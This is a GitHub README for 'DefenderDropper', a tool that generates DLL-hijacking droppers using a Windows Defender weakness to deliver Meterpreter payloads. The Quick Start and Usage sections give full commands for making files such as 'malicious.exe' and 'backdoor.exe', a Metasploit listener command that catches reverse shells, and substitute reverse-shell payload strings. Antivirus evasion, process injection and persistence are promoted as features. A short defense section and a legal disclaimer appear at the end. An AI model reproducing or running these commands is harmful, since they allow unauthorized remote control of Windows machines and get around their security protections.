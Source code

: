 #  DefenderDropper

**Advanced DLL Hijacking Payload Generator Using Windows Defender Vulnerabilities**

![Banner](assets/banner.jpg)
[![Python](https://img.shields.io/badge/Python-3.6%2B-blue)](https://python.org)
[![Metasploit](https://img.shields.io/badge/Metasploit-Compatible-red)](https://metasploit.com)
[![License](https://img.shields.io/badge/License-MIT-green)](LICENSE)

##  Overview

DefenderDropper is an advanced payload generation tool that leverages the DLL hijacking vulnerability in Windows Defender, originally discovered by [TwoSevenOneT](https://github.com/TwoSevenOneT/DefenderWrite). This tool automates the creation of sophisticated payloads that bypass security controls by hijacking legitimate Windows Defender processes.

>  **Inspired by**: [TwoSevenOneT/DefenderWrite](https://github.com/TwoSevenOneT/DefenderWrite)

##  Features

- **Windows Defender Exploitation**: Leverages DLL hijacking in Windows Defender
- **Automated Payload Generation**: Creates ready-to-use droppers and DLLs
- **Metasploit Integration**: Seamless integration with Meterpreter payloads
- **Static Compilation**: No external dependencies required
- **Stealth Execution**: Runs through legitimate system processes
- **Multiple Payload Support**: Various reverse shell and Meterpreter options

##  Quick Start

### Prerequisites

```bash
# Install dependencies on Debian/Kali
sudo apt update
sudo apt install python3 metasploit-framework mingw-w64 -y
```
# Installation
```bash
git clone https://github.com/HackScaleTeam/DefenderDropper.git
cd DefenderDropper
```

# Generate payload
```
python3 defenderdropper.py 10.0.2.147 4443 -o malicious.exe
```
# Start Metasploit listener
```
msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter_reverse_tcp; set LHOST 10.0.2.147; set LPORT 4443; exploit'
```

# How It Works
Technical Overview
DLL Hijacking: Exploits Windows Defender's vulnerable update process

Process Injection: Injects shellcode into legitimate system processes

Persistence: Leverages trusted Windows components for execution

Evasion: Bypasses common security controls and antivirus solutions

# Attack Flow

![Banner](assets/digram.png)


# File Structure
```
DefenderDropper/
├── defenderdropper.py    # Main payload generator
├── payload.exe           # Generated dropper
├── payload.dll           # Shellcode DLL
├── DefenderWrite.exe     # Core exploit tool
├── README.md
└── LICENSE
```
# Usage Examples
Basic Meterpreter Payload
```bash
python3 defenderdropper.py 192.168.1.100 4444 -o backdoor.exe
```


# Advanced Features
Custom Payloads

You can modify the generate_shellcode() function to use different Metasploit payloads, on defenderdropper.py search for windows/x64/meterpreter_reverse_tcp and replace it with other payloads:

```
"-p", "windows/x64/shell_reverse_tcp",  # Simple reverse shell
"-p", "windows/meterpreter/reverse_https",  # HTTPS payload
"-p", "windows/x64/meterpreter/reverse_tcp",  # Standard Meterpreter
```

# Defense & Mitigation
Detection
Monitor for unusual msiexec.exe child processes

Watch for DLL files in Windows Defender directory

Analyze process hollowing techniques

# Prevention
Keep Windows Defender updated

Implement application whitelisting

Use advanced endpoint protection

Regular security audits

# Legal Disclaimer
This tool is intended for:

 Security research

 Penetration testing with proper authorization

 Educational purposes

 Red team exercises

 Illegal use of this tool is strictly prohibited. The developers are not responsible for any misuse or damage caused by this tool. Always ensure you have explicit permission before testing any systems.

# Contributing
We welcome contributions from the security community! Feel free to:

Fork the repository

Create feature branches

Submit pull requests

Report issues and suggestions

# Special Thanks
TwoSevenOneT for the original DefenderWrite research

The cybersecurity community for continuous improvement

# License
This project is licensed under the MIT License - see the [LICENSE](https://github.com/HackScaleTeam/DefenderDropper/blob/main/LICENSE). file for details.

 Security is a shared responsibility. Use this tool wisely and ethically.

Built with ❤️ for the cybersecurity community. Inspired by groundbreaking research from TwoSevenOneT.
